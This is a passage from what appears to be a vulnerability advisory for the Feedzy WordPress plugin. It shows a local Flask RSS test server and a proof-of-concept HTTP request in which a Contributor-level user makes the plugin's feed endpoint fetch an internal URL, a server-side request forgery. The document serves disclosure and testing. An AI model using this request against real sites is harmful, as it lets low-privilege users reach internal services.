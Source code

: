 ```py
          <description>Another entry.</description>
        </item>
      </channel>
    </rss>"""
    
    return Response(xml_content, mimetype='application/xml')

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8001, debug=True)
```

### Proof of Concept (PoC)

1. Login with a Contributor account
2. Send a POST request with the URL pointing to the local service:

```php
POST /wp-json/feedzy/v1/feed HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://localhost/wp-login.php?redirect_to=http%3A%2F%2Flocalhost%2Fwp-admin%2F&reauth=1
Connection: keep-alive
Cookie: wordpress_86a9106ae65537651a8e456835b316ab=sub%7C1761790291%7C0Q8NLwANiN0Uz0cgmvSAN6iBfEFzSylzkAkZn4kLcoG%7Cdf597bffe4c239d9e871b2ac98a2d427df0fb82dc7a09099bc026fbbff641ad1; wp-settings-time-2=1761542750; _lscache_vary=0f9122a3a07756eeee3b4199f2c151b1; wp-settings-time-3=1761591693; wp-settings-3=mfold%3Do; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=sub%7C1761790291%7C0Q8NLwANiN0Uz0cgmvSAN6iBfEFzSylzkAkZn4kLcoG%7Cd42e05305965ebb0efad0d1374e9552219c641afb6452531634d3b4e414c6a48; wp_lang=en_US

url[0]=http://localhost:8001/feed&category=cat
```

**Result**:

![Result](result.png "Content read from the local service")
